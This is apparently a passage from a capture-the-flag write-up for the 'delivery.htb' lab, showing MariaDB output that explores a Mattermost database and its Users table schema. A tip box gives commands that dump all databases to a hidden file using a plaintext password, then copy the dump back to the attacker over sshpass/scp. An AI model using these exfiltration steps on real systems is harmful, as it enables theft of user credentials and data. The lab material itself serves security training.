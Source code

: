 ```bash
MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> use mattermost
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [mattermost]> show tables;
+------------------------+
| Tables_in_mattermost   |
+------------------------+
| Audits                 |
...
| Tokens                 |
| UploadSessions         |
| UserAccessTokens       |
| UserGroups             |
| UserTermsOfService     |
| Users                  |
+------------------------+
46 rows in set (0.001 sec)

MariaDB [mattermost]> 
```

> **Dump mysql database**
> Since the table is large, dumping it and transfer back to attacker will be helpful in real engagements
> ```bash
> mysqldump -u mmuser -p'Crack_The_MM_Admin_PW' --opt --all-databases -r /dev/shm/.dump.sql
> sshpass -p 'Youve_G0t_Mail!' scp maildeliverer@delivery.htb:/dev/shm/.dump.sql .
> ```
> > Then use dbeaver to search through the database
{: .prompt-tip }

^40bfec

Show structure for `Users` table

```bash
MariaDB [mattermost]> describe Users;
+--------------------+--------------+------+-----+---------+-------+
| Field              | Type         | Null | Key | Default | Extra |
+--------------------+--------------+------+-----+---------+-------+
| Id                 | varchar(26)  | NO   | PRI | NULL    |       |
| CreateAt           | bigint(20)   | YES  | MUL | NULL    |       |
| UpdateAt           | bigint(20)   | YES  | MUL | NULL    |       |
| DeleteAt           | bigint(20)   | YES  | MUL | NULL    |       |
| Username           | varchar(64)  | YES  | UNI | NULL    |       |
| Password           | varchar(128) | YES  |     | NULL    |       |
| AuthData           | varchar(128) | YES  | UNI | NULL    |       |
| AuthService        | varchar(32)  | YES  |     | NULL    |       |
| Email              | varchar(128) | YES  | UNI | NULL    |       |
| EmailVerified      | tinyint(1)   | YES  |     | NULL    |       |
| Nickname           | varchar(64)  | YES  |     | NULL    |       |
| FirstName          | varchar(64)  | YES  |     | NULL    |       |
| LastName           | varchar(64)  | YES  |     | NULL    |       |
| Position           | varchar(128) | YES  |     | NULL    |       |
```